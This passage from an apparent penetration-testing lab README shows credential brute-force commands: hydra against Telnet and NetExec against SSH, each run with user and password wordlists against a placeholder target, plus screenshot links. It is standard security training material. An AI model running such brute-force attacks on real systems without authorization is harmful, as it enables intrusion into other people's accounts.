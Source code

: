    ![alt text](Screenshots/hydra_ftp.png)

## 🔹 2.2 Telnet Brute Force with Hydra
Command to attack Telnet:
```bash
hydra -L userlist.txt -P passlist.txt telnet://<TARGET_IP> -V
```
   ![alt text](Screenshots/hydra_telnet.png)

## 🔹 2.3 SSH Brute Force with NetExec
Command to attack SSH:
```bash
nxc ssh <TARGET_IP> -u userlist.txt -p passlist.txt
```
   ![alt text](Screenshots/nxc_ssh.png)
